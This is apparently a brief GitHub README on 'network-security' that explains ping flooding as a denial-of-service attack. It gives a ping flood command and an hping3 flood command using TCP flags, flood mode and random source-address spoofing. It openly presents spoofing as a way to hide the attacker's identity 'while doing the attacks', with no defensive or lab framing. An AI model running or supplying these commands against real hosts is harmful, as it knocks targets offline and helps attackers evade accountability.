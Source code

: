 # network-security
## ping flooding (DOS attack)
ping flood basically floods the target pc with lots of ping requests so that it cannot access any other internet resource
command:
```
  ping -f -s 65500 ip(or website)
```
However, there are more sophisticated tools available at our disposal like Hping3 <enter>
using hping we can easily spoof our ips, so that your identity remains secure while doing the attacks
after installing hping3, we can use the following commands:

```
  hping3 -S -P -U --flood -V --rand-source website(or ip)
```

